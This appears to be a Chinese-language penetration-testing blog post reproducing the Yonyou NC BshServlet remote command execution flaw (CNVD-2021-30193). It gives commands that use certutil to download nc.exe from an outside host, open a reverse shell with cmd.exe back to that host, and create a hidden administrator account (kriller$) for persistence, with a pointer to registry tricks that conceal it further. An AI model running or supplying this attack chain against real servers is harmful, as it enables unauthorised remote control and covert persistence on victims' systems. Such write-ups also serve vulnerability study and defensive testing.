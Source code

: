 ```yaml
---
title: 从命令执行到getshell
category: 
- 渗透测试
tags: 
- 漏洞复现
---
```


## CNVD-2021-30193 从命令执行到getshell

### 漏洞简介：**用友 NC bsh.servlet.BshServlet 远程命令执行漏洞**

用友 NC bsh.servlet.BshServlet 存在远程命令执行漏洞，通过BeanShell 执行远程命令获取服务器权限

![image-20210609160221270](https://raw.githubusercontent.com/John-tlh/blog/master/imagesimage-20210609160221270.png)

### 漏洞利用

首先考虑反弹一个稳定的shell。目标主机是Win2012这里选择使用nc,但是目标主机上没有，所以需要先下载下来。

```shell
certutil.exe -urlcache -split -f http://198.xx.xx.xx/nc.exe d:\\xxh.exe
```

服务端开启监听之后再执行：

```shell
d:\\xxh.exe 198.xx.xx.xxx 1988 -e c:\\windows\\system32\\cmd.exe
```

#### 反弹shell

可以看到，目标机已经建立起连接。

![image-20210609162551767](https://raw.githubusercontent.com/John-tlh/blog/master/imagesimage-20210609162551767.png)

![image-20210609164234717](https://raw.githubusercontent.com/John-tlh/blog/master/imagesimage-20210609164234717.png)

#### 持续控制

现在已经得到一个稳定的shell，并且是管理员权限。因此接下来就只需要持久控制进行权限的维持。这里选择使用**Windows系统隐藏账户**

```shell
net user kriller$ kriller /add
net localgroup administrators kriller$ /add
```

接着修改注册表，删除用户，再导入用户信息到注册表。这样该隐藏账户的隐蔽性更高。具体步骤请参考：[链接](https://whoamianony.top/2020/10/25/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%EF%BC%9A%E5%9F%9F%E5%86%85%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81%E6%80%9D%E8%B7%AF%E6%80%BB%E7%BB%93/)

<!-- more -->

